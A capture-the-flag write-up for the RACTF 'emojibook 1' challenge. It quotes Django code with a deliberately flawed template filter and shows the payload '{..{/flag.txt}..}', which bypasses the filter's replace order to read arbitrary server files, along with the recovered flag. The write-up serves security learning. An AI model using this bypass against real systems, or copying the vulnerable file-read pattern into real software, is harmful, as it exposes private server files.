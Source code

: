 
# RACTF: emojibook 1 writeup. SSTI in custom template implementation.


## Table of contents
- Setup
- the bug
- Exploiting emojibook 1



## setup

The webapp has 4 main functions: login, register, new note, home. It is important to create an account **and** login otherwise the app doesnt work.

Under the "new note" tab you can create a note, that can later be viewed on the home tab. In your notes you can add emojis with :emoji\_name:



## the bug

After looking through the sources that they provided in emojibook1, I came across this function in `notes/views.py`:
```py
 1    # responsible for displaying a note to the user
 2    def view_note(request: HttpRequest, pk: int) -> HttpResponse:
 3        note = get_object_or_404(Note, pk=pk)
 4        text = note.body
 5        for include in re.findall("({{.*?}})", text):
 6            print(include)
 7            ## NOTE: as we can control what is in the template things we might have something interesting here
 8            file_name = os.path.join("emoji", re.sub("[{}]", "", include))
 9            with open(file_name, "rb") as file:
 10               text = text.replace(include, f"<img src=\"data:image/png;base64,{base64.b64encode(file.read()).decode('latin1')}\" width=\"25\" height=\"25\" />")
 11
 12       return render(request, "note.html", {"note": note, "text": text})
```

On line 5 you can see that it is looking for `{{ expression }}` in the note. This immediately looks like some sort of custom templating server-side rendered html. We can also see later on that it tries to find a file name inside the template, reads and encodes it with base64 and returns it as an image.

This sounds like a recipie for an arbitrary read. Obviously its not as simple as just creating a note with `{{/flag.txt}}` because `{{` simbols get filtered somewhere else in code.

In `notes/forms.py` we find the function responsible for saving notes and filtering out dangerous characters:
```py
 1    def save(self, commit=True):
 2        instance = super(NoteCreateForm, self).save(commit=False)
 3        instance.author = self.user
 4        instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")
 5 
 6        with open("emoji.json") as emoji_file:
 7            emojis = json.load(emoji_file)
 8 
 9            for emoji in re.findall("(:[a-z_]*?:)", instance.body):
 10               instance.body = instance.body.replace(emoji, "{{" + emojis[emoji.replace(":", "")] + ".png}}")
 11
 12       if commit:
 13           instance.save()
 14           self._save_m2m()
 15
 16       return instance
 17
```

The filtering takes place on line 4. It first removes all instances of `{{` then `}}` and finally `..`. This is a problem because if someone were to add `{..{ filename }..}` it would remove nothing on the first two replace operations and remove the `..` last, creating a valid template. (`{{ filename }}`)




## exploiting emojibook 1

Using what we have found so far we can create a note (payload) as follows:
```
{..{/flag.txt}..}
```

This returns a broken image. Looking into the page source you can see that the image is being supplied as a base64 encoded string, decoding that lands us the flag.
```
ractf{dj4ng0_lfi}
```

NOTE: referencing an invalid file returns 500 and not 404.
